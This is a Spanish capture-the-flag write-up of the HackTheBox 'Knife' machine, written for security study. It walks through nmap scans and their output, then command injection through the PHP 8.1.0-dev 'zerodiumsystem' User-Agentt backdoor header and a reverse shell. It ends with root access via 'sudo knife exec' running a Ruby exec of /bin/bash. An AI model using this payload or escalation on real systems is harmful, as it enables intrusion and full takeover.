 ```yaml
---
published: true
title: HackTheBox - Knife [WriteUp]
date: '2021-07-08'
category: HackTheBox
description: WriteUp de la Máquina Knife de HackTheBox
---
```

![image-center](/assets/images/Knife_HTB/Knife_Infocard.png)

## Reconocimiento Inicial 
Comenzaremos realizando un escaneo con ```nmap``` mediante el siguiente comando para la enumeración de puertos de la máquina

```bash
nmap -p- -sS --min-rate 5000 --open -n -Pn -vvv 10.10.10.242 -oG allports
```
Del cual obtenemos los siguientes resultados

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-07 17:59 -04
Initiating SYN Stealth Scan at 17:59
Scanning 10.10.10.242 [65535 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 18:00, 34.31s elapsed (65535 total ports)
Nmap scan report for 10.10.10.242
Host is up, received user-set (4.4s latency).
Scanned at 2021-07-07 17:59:47 -04 for 34s
Not shown: 65249 filtered ports, 284 closed ports
Reason: 65249 no-responses and 284 resets
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 34.46 seconds
           Raw packets sent: 131046 (5.766MB) | Rcvd: 296 (11.888KB)
```
Ya sabemos que nuestra máquina posee dos puertos abiertos, el 22 y el 80, por lo que ahora toca realizar un escaneo de las versiones de estos puertos para ver que información nos entrega

```bash
nmap -sC -sV -p22,80 10.10.10.242 -oN targeted
```
Obteniendo lo siguiente
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-07 18:20 -04
Nmap scan report for 10.10.10.242
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.91 seconds
```

Si accedemos a la página que nos indica el puerto 80, nos encontramos con lo siguiente
![image](/assets/images/Knife_HTB/Knife-pagina.png)

Mediante el uso de ```Wappalyzer``` podemos ver que la página tiene como servidor web un Apache 2.4.41 y como lenguaje de programación un PHP 8.1-dev.
Buscando en internet por alguna vulnerabilidad posible, me encuentro que existe una vulnerabilidad que permite un Backdoor Remote Command Injection 
[https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html](https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html)

Si analizamos el código que se menciona en el artículo podemos ver que en la función ```execCmd``` la linea ```r = s.get(args.url, headers={"User-Agentt":"zerodiumsystem(\""+args.cmd+"\");"})``` es la que ejecuta el comando en el servidor y nos devuelve la respuesta del comando que indicamos ejecutar, un ejemplo de uso se muestra a continuación

![image](/assets/images/Knife_HTB/resutlados_script.png)

Con esto claro podemos utilizar el código tal cual está o retocarlo un poco para hacer que solamente nos realice una Reverse Shell a nuestro equipo de atacante. En mi caso lo retoque un poco tal que solamente ejecute la reverse shell para obtener acceso quedando de la siguiente forma
![image](/assets/images/Knife_HTB/script-knife.png)

De este modo ya tenemos acceso al sistema, ahora toca realizar un tratamiento de la tty.

## User Flag

Una vez realizado el tratamiento, ejecute los comandos ```whoami``` y ```id``` obteniendo lo siguiente
```bash
james@knife:~$ whoami
james
james@knife:~$ id
uid=1000(james) gid=1000(james) groups=1000(james)
james@knife:~$
```
con esto ya sabemos que tenemos el usuario james y podemos ir a buscar la bandera como se muestra en la imagen
![imagen](/assets/images/Knife_HTB/userflag.png)

## PrivEsc y Root Flag

Realizando una enumeración básica de privilegios ```sudo -l``` encontramos la siguiente respuesta
```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:~$ 

```
[Knife](https://docs.chef.io/workstation/knife/) es una herramienta de línea de comandos que proporciona una interfaz entre un repositorio de Chef local y el Chef Infra Server la cual esta contruida en Ruby. Esta posee distintas funciones y herramientas pero nos enfocaremos en una llamada ```exec```. La cual nos permite ejecutar codigos o scripts hechos en Ruby. Indagando un poco en internet encontre esta [página](https://www.hacknos.com/perl-python-ruby-privilege-escalation-linux/) la cual indica como se puede realizar una elevación de privilegios con Ruby.

Por lo tanto y con esta información en nuestra mente ejecutamos esta linea de comandos
```bash
james@knife:~$ sudo knife exec
```
la cual nos abrira un editor donde podemos escribir el comando de ruby y ejecutarlo mediante ```ctrl+D```.
```bash
james@knife:~$ sudo knife exec
An interactive shell is opened

Type your script and do:

1. To run the script, use 'Ctrl D'
2. To exit, use 'Ctrl/Shift C'

Type here a script...
exec "/bin/bash";
root@knife:/home/james# 
```
Y con esto ya somos root y podemos ir por la flag
```bash
root@knife:/home/james# id
uid=0(root) gid=0(root) groups=0(root)
root@knife:/home/james# 
```
